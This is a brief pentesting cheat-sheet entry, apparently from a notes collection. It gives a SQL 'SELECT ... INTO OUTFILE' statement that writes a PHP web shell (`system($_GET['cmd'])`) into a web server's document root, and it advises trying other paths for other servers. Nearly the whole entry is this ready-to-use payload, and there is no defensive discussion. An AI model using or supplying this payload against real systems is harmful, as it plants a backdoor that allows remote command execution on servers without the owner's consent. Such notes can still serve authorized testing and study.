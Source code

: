 # linux
Write a CMD shell into a file with the right permissions. Issue the following select. (Try different paths for different webservers)
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```

# References

Tags:
    #assorted


